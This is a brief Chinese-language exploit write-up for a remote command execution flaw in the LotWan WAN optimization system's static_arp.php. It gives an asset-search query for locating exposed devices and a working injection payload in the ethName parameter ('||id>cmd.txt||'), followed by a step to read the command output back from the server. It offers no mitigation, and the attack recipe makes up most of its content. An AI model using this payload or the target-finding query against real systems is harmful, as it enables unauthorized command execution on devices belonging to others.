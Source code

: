 # 华夏创新 LotWan广域网优化系统 static_arp.php 远程命令执行漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统 static_arp.php文件参数 ethName存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>华夏创新 LotWan广域网优化系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="LotWan 广域网优化系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1635942598942-6671fa50-5052-43f6-ab40-bf2c8403bdf8-20220314123722094.png)

存在漏洞的文件为

```php
/acc/bindipmac/static_arp.php?ethName=||id>cmd.txt||
```

![img](../../../.vuepress/public/img/1635942680846-eb442f59-4229-43ad-a133-5c5587d20774.png)

再访问 **/acc/bindipmac/cmd.txt**

![img](../../../.vuepress/public/img/1635942700371-15189d95-a643-4b0d-95bb-14f6285796d2.png)

